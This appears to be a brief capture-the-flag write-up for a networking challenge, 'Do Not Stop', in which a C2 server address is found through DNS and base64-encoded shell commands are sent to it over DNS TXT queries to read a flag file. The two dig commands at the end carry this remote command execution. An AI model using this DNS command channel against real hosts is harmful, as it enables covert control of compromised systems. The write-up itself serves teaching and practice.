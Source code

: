 # Do Not Stop
​
This networking problem involved emulating some C2 traffic from a PCAP. The solution flow was:

* Observe that DNS requests
* Observe that the real C2 server IP address is given as the A record response for `dns.google.com` using `35.225.16.21` as the name server.
* Knowing the real C2/infected server address, execute base64-encoded commands on it to get the flag.

These steps can be summarized with the following two commands:

```sh
dig -t a dns.google.com @35.225.16.21

# 3.88.57.227 is result of previous command.
dig -t txt $(base64 <<< 'cat flag.txt') @3.88.57.227
```

